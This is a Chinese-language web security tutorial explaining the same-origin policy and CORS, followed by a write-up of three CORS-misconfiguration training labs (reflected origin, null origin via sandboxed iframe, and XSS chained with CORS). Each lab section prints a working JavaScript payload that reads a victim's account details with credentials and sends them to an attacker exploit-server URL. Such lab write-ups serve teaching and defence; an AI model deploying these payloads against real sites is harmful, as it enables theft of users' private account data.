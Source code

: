 ### 同源策略

在浏览器中，默认的同源策略会阻止以下行为：

1. 前端 JavaScript 使用 XMLHttpRequest 或 Fetch API 请求其他域名/端口/协议的接口。
2. 跨域访问某些资源（如字体、图片、脚本等）。
3. 防止恶意网站通过脚本窃取用户数据（如 Cookie）。

| 当前页面 URL                     | 目标 URL                         | 是否同源 | 原因                      |
| :------------------------------- | :------------------------------- | :------- | :------------------------ |
| `https://www.example.com/page1`  | `https://www.example.com/page2`  | **是**   | 协议、主机、端口完全相同  |
| `https://www.example.com/page1`  | `http://www.example.com/page2`   | **否**   | 协议不同 (https vs http)  |
| `https://www.example.com:443/p1` | `https://www.example.com/page2`  | **是**   | 端口相同 (443是https默认) |
| `https://www.example.com/page1`  | `https://api.example.com/page2`  | **否**   | 主机不同 (www vs api)     |
| `https://www.example.com/page1`  | `https://www.example.com:8080/p` | **否**   | 端口不同 (443 vs 8080)    |

### cors 跨域访问

cors 的引入，使得跨域访问不受同源策略的限制。它分为：1.简单请求（Simple Request）2.预检请求（Preflight Request）

##### 简单请求

满足以下条件的请求会被视为简单请求（无需预检）：

- 方法为 GET、POST 或 HEAD。
- 请求头仅包含安全字段（如 Accept、Accept-Language、Content-Language、Content-Typ 等）。
- Content-Type 仅限 text/plain、multipart/form-data、application/x-www-form-urlencoded。

简单请求流程如下：

1. 浏览器自动在请求头中添加 Origin 字段来标明请求来源。
2. 服务端检查 Origin ：
   - 如果允许跨域，响应头中返回 Access-Control-Allow-Origin: <允许的源>（或 * 表示允许任意源）。
   - 浏览器验证响应头，若匹配则允许请求完成，否则拦截。

##### 预检请求

不满足简单请求条件的请求（如 PUT、DELETE 方法，或携带自定义头如 Authorization）会触发预检。

**流程：**

1. 浏览器先发送一个 OPTIONS 请求（预检请求），携带以下头信息：
   - Origin: 请求来源。
   - Access-Control-Request-Method: 实际请求的方法（如 PUT）。
   - Access-Control-Request-Headers: 实际请求的自定义头（如 Authorization）。
2. 服务器响应预检请求，返回是否允许跨域的规则：
   - Access-Control-Allow-Origin: 允许的源。
   - Access-Control-Allow-Methods: 允许的 HTTP 方法。
   - Access-Control-Allow-Headers: 允许的请求头。
   - Access-Control-Max-Age: 预检结果缓存时间（避免频繁预检）。
3. 浏览器验证预检响应：
   - 若通过，发送实际请求。
   - 若失败，拦截后续请求。

4. 浏览器跨域向服务器发起数据请求：
   - 如果前端 js 设置 credentials: include（Fetch API）或 withCredentials: true（XHR），浏览器会携带上这个网站的 cookie。

### cors 劫持（数据带外）

通过反射的 Access-Control-Allow-Origin 进行跨域。

![image-20250408095900327](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/CORS%20%E8%B7%A8%E5%9F%9F/images/image-20250408095900327.png)

使用上述凭据登录后，进入个人页面时抓包，当添加 Origin: https://test.com 时，响应包中出现 Access-Control-Allow-Origin: https://test.com 响应头：

![image-20250408100914864](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/CORS%20%E8%B7%A8%E5%9F%9F/images/image-20250408100914864.png)

转到攻击者服务器，构造钓鱼网页。这里的 Body 里面包含执行在用户机器上的恶意钓鱼 payload。这段 payload 逻辑如下：

- 使用用户的 cookie 凭据访问 YOUR-LAB-ID.web-security-academy.net 这个域获取敏感信息的接口。
- 将获取的敏感信息作为参数 key，访问攻击者 exploit-YOUR-LAB-ID.exploit-server.net 域来存储用户的敏感信息。

![image-20250409120725608](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/CORS%20%E8%B7%A8%E5%9F%9F/images/image-20250409120725608.png)

如果用户访问此页面，用户在此站点的 cookie 将存储在攻击者网站的日志中。

```
# 官方 payload：
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0a3100100335c4d880690373004700fd.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>

req.withCredentials = true; # 这一行代码的作用是 明确指示浏览器在发送跨域请求时携带目标网站（https://0a3100100335c4d880690373004700fd.web-security-academy.net）的 Cookie。
```

### 靶场2

通过 Access-Control-Allow-Origin: null 进行跨域。

原理同上，这个靶场旨在利用 iframe 标签生成 Origin: null 的请求头。

![image-20250408111130832](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/CORS%20%E8%B7%A8%E5%9F%9F/images/image-20250408111130832.png)

```
# 只有当请求头的 Origin 为 null 的时候，响应头 Access-Control-Allow-Origin 为 null，那么攻击者可以使用 iframe 构造钓鱼请求使得请求头中存在 Origin: null。使用 iframe 沙盒，会生成 null 源请求。

# 官方 payload：
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0ace00cd037180e2a33697fc00100042.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='https://exploit-0ad3001203d7805da36d969a01450010.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
```

### 靶场3：xss + cors

这个靶场的目的旨在提升 xss 的危害，首先子域存在xss，且父域允许子域进行 cors 跨域访问，且父域存在敏感接口。

![image-20250408115637390](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/CORS%20%E8%B7%A8%E5%9F%9F/images/image-20250408115637390.png)

子域使用反射型 xss 钓鱼。它的逻辑是当用户访问子域触发 xss 后，脚本将获取父域的 cookie，去访问父域的敏感接口，然后将敏感信息作为参数访问攻击者网站存储敏感信息。

```
<script>
    document.location="http://stock.0a9e003403b4601e809235e6006e002c.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0a9e003403b4601e809235e6006e002c.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0a3b001803c4604e8040340f017b0048.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

条件：

- a.com 域存在 xss 能执行恶意脚本。
- a.com 域能跨域访问目标 b.com，且 b.com 启用 Allow-Credentials。
- b.com 域能使用 js 获取 cookie。（withCredentials = true）
- 用户处于 b.com 的活跃会话中。





